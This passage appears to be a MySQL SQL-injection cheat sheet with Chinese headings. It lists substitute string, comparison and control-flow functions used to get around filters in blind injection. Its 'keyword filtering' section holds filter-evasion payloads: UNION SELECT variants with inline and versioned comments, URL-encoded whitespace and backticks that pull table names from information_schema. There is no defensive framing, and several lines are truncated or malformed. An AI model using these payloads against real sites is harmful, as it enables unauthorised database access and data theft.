 @@new: 0
@@log_bin: 1
#提取子字符串substr('abc',1,1) = 'a'
substr('abc' from 1 for 1) = 'a'
substring('abc',1,1) = 'a'
substring('abc' from 1 for 1) = 'a'
mid('abc',1,1) = 'a'
mid('abc' from 1 for 1) = 'a'
lpad('abc',1,space(1)) = 'a'
rpad('abc',1,space(1)) = 'a'
left('abc',1) = 'a'
reverse(right(reverse('abc'),1)) = 'a'
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
space(0) = trim(version()from(version()))

#搜索子字符串
locate('a','abc')
position('a','abc')
position('a' IN 'abc')
instr('abc','a')
substring_index('ab','b',1)

#分割字符串
length(trim(leading 'a' FROM 'abc'))
length(replace('abc', 'a', "))

#比较字符串
strcmp('a','a')
mod('a','a')
find_in_set('a','a')
field('a','a')
count(concat('a','a'))

#字符串长度
length()
bit_length()
char_length()
octet_length()
bit_count()

#关键字过滤
Connected keyword filtering
(0)union(select(table_name),column_name,…
0/**/union/*!50000select*/table_name`foo`/**/…
0%a0union%a0select%09group_concat(table_name)….
0′union all select all`table_name`foo from`information_schema`. `tables`

#控制流
case 'a' when 'a' then 1 [else 0] end
case when 'a'='a' then 1 [else 0] end
if('a'='a',1,0)
ifnull(nullif('a','a'),1)
</pre>
